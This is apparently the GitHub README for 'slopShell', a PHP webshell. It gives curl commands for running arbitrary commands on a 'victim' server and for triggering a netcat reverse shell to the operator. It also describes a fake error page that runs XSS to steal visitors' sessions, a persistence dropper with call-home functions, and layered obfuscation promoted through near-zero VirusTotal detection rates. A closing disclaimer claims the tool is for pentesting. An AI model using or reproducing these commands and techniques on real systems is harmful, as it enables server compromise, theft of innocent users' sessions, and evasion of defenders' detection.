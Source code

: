 [![GitHub forks](https://img.shields.io/github/forks/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/network)
[![GitHub stars](https://img.shields.io/github/stars/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/stargazers)
[![GitHub watchers](https://img.shields.io/github/watchers/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/watchers)
[![GitHub issues](https://img.shields.io/github/issues/oldkingcone/slopShell?style=plastic)](https://github.com/oldkingcone/slopShell/issues)
[![language](https://img.shields.io/badge/language-PHP-blue?style=plastic)](https://www.php.net)
[![language](https://img.shields.io/badge/language-Powershell-blue?style=plastic)](https://docs.microsoft.com/en-us/powershell/)
[![language](https://img.shields.io/badge/language-Bash-yellow?style=plastic)](https://www.gnu.org/software/bash/)
[![BuyMeACoffee](https://img.shields.io/badge/BuyMeACoffee-Or%20Book-yellowgreen?style=plastic)](https://www.buymeacoffee.com/oldkingcone)


# slopShell
php webshell

Since I derped, and forgot to talk about usage. Here goes.

For this shell to work, you need 2 things, a victim that allows php file upload(yourself, in an educational environment) and a way to send http requests to this webshell. 


Thank you for all the support the community has given, it means alot to us. Now for things that will be added to this shell, to make it even more awesome. 

 - Mutual TLS, with the ability to generate a CA on the fly(if thats possible) 
 - More refined dropper/shell itself, to ensure that the shell will not be stumbled upon for prolonged access.

Basic Usage Video(Hosted on Youtube):

[![Video Showing Usage](https://i.ytimg.com/vi_webp/FywNszpfDJo/maxresdefault.webp)](https://www.youtube.com/watch?v=FywNszpfDJo)

Current VT Detection ratio: 1/59 (most new version)

[![Virus Total](https://www.virustotal.com/gui/images/VT_search_hash.svg)](https://www.virustotal.com/gui/file-analysis/Mzc1NjIzYTU5Mjg0YzJiN2ExZGM0Y2E4MDVhM2Q3MzE6MTYyNDAzNzg4MA==/detection)


Current VT Detection ratio (obfuscated version): 0/59

[![Virus Total](https://www.virustotal.com/gui/images/VT_search_hash.svg)](https://www.virustotal.com/gui/file/6738372a46f82c4f29c196f3602c1fc8ff1b34505376c516d6f3e96cdb74bedd/detection)

~~__The issue with this detection happening is i have not found a viable workaround for the keyword of eval if there was no call to eval this script would be undetectable.__~~

---
# Setup

Ok, so here we go folks, there was an itch I had to write something in PHP so this is it. This webshell has a few bells and whistles, and more are added everyday. You will need a pgsql server running that you control. However you implement that is on you.

Debian: `apt install -y postgresql php php-pear && python -m pip install proxybroker --user`

RHEL Systems: `dnf -y -b install postgresql-server postgresql php php-pear && python -m pip install proxybroker --user`

WIN: `install the php msi, and make sure you have an active postgresql server that you can connect to running somewhere. figure it out.`


Once you have these set up properly and can confirm that they are running. A command I would encourge using is with `pg_ctl` you can create the DB that way, or at least init it and start it. Then all the db queries will work fine.

---
## How to interact.


CLIFFNOTE: For the anti analysis routines, I(oldkingcone) would love to try and take credit for this idea, but I cannot in good conscience, so the inspiration came from 1 person(you know who you are, you evil genius.) whom pointed me to this repo: https://github.com/NullArray/Archivist/blob/master/logger.py#L123 
Firstly, you need to choose a valid User-Agent to use, this is kind of like a first layer of protection against your webshell being accidentally stumbled upon by anyone but you. I went with sp/1.1 as its a non typical user-agent used. This can cause red flags in a pentest, and your access or script to be blocked or deleted. So, be smart about it. Code obfuscation wouldnt hurt, I did not add that in because thats on you to decide. To use the shell, there are some presets to aid you in your pen test and traversal of the machine. I did not add much for windows, because I do not like developing for windows. If you have routines or tricks added or know about, feel free to submit an issue with your suggestion and ill add it. An example of how to use this webshell with curl:

`curl https://victim/slop.php?qs=cqP -H "User-Agent: sp/1.1" -v`

or to execute custom commands:

`curl https://victim/slop.php --data "commander=id" -H "User-Agent: sp/1.1" -v`

Or to attempt to establish a reverse shell to your machine:

`curl https://victim/slop.php --data "rcom=1&mthd=nc&rhost=&rport=&shell=sh" -H "User-Agent: sp/1.1" -v`

- mthd = the method you want to use to establish the reverse shell, this is predefined in the `$comma` array, feel free to add to it, optional, if it is null, the script will choose for you.
- rhost = you, now this and the rport are not required, as it defaults to using netcat with the ip address in the `$_SERVER["REMOTE_ADDR"]` php env variable.
- rport = your listener port, the default was set to 1634, just because.
- shell = the type of system shell you want to have. I know bash isnt standard on all systems, but thats why its nice for you to do some system recon before you try to execute this command.

Here is the better part of this shell. If someone happens upon this shell without supplying the exact user agent string specified in the script, this shell will produce a 500 error with a fake error page then it will attempt some XSS to steal that users session information and sends it back to a handler script on your server/system. This will then attempt to store the information in a running log file. If it is unable to do so, well the backup is your logs. Once the XSS has completed, this shell will redirect the user back to the root(/) of the webserver. So, youll steal sessions if someone finds this, can even beef it up to execute commands on the server on behalf of the user, or drop a reverse shell on the users browser through Beef or another method. The possibilities are legit endless.

---
## Images of use cases

In browser, navigated to without the proper user-agent string. (1st level of auth)
![](https://github.com/oldkingcone/slopShell/blob/master/in_browser.jpeg?raw=true)

Use in the terminal, which is how this was designed to work, using curl with the -vH "User-Agent: sp1.1" switches.
![](https://github.com/oldkingcone/slopShell/blob/master/use_in_terminal.jpeg?raw=true)

Obfuscated script example: 
![](https://github.com/oldkingcone/slopShell/blob/master/obfuscated_script.png?raw=true)

Generation 2 obfuscated script:
![](https://github.com/oldkingcone/slopShell/blob/master/obfuscated_gen2.png?raw=true)

Client script usage:
![](https://github.com/oldkingcone/slopShell/blob/master/client_usage.png?raw=true)

Reverse Connection initiated from the client script:
![](https://github.com/oldkingcone/slopShell/blob/master/reverse_connection_client_script.png?raw=true)


---

## Interacting through the client script

Once the client script is complete, you as the operator will not need to interact though curl to utilize this shell. There will be a client script that you can use to execute all commands/control over. In addition to this client script, there is a dropper. This dropper will ensure the script is run at start up even if the website is removed. Including some call home functions, obfuscation if it is requested on a level from 1 to 3, with 3 being the highest as every function will be rot ciphered and then encoded in base64 within the whole file being base64 encoded with a random name assigned to the file itself. This can help avoid signature detection. 


---
## Encryption

Once the encryption routine is fully worked out, the dropper script will be encrypted, and highly obfuscated.
Example output:
```
Base64 decoded: also a test 123
Re-Encoded: YWxzbyBhIHRlc3QgMTIz
Key: 4212bd1ff1d366f23ca77021706a9a29cb824b45f82ae312bcf220de68c76760289f1d5550aa341002f1cfa9831e871e
Key Length: 96
Encryption Result:
Array
(
    [original] => also a test 123
    [key] => 4212bd1ff1d366f23ca77021706a9a29cb824b45f82ae312bcf220de68c76760289f1d5550aa341002f1cfa9831e871e
    [encrypted] => meIHs/y6_U7U~7(M
    [base64_Encoded] => bWVJSAAdcw4veTZfVQU3VX43KE0=
)
Decrypt Test:
Array
(
    [key] => 4212bd1ff1d366f23ca77021706a9a29cb824b45f82ae312bcf220de68c76760289f1d5550aa341002f1cfa9831e871e
    [encrypted] => meIHs/y6_U7U~7(M
    [decrypted] => YWxzbyBhIHRlc3QgMTIz
    [base64_decoded] => also a test 123
    [original] => also a test 123
)
```

---
## Additional

This was going to remain private. But I decided otherwise.

Do not abuse this shell, and get a signature attached to it, this is quite stealthy right now since its brand new.

I as the maintainer, am in no way responsible for the misuse of this product. This was published for legitmate penetration testing/red teaming purposes, and/or for educational value.  Know the applicable laws in your country of residence before using this script, and do not break the law whilst using this. Thank you and have a nice day.



If you have enjoyed this script, its is obligatory that you follow me and throw a star on this repo... because future editions will have more features(or bugs) depending on how you look at it.

